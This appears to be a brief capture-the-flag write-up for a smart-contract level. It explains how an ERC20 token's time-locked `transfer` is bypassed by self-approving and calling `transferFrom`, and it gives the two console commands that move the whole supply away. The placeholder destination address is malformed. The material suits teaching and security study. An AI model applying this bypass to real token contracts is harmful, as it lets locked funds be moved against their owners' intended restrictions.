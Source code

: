 ERC20 specifies that conforming tokens must implement the following API:
- totalSupply()
- balanceOf(account)
- transfer(recipient, amount)
- allowance(owner, spender)
- approve(spender, amount)
- transferFrom(sender, recipient, amount)

In this level we're not able to call `transfer` before the 10 year time limit, however we are able to use `approve` and `transferFrom`. These two functions allow us to grant permission to another address to spend the token, and in our case we can grant approval to ourselves so we can use transferFrom to transfer the tokens. 

First we approve ourselves to transfer `INITIAL_SUPPLY` worth of tokens:
```javascript
await contract.approve(player, 1000000000000000000000000)
```

Then we transfer all of them to another address which is not us:
```javascript
await contract.transferFrom(player, "0xaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa", 1000000000000000000000000)
```
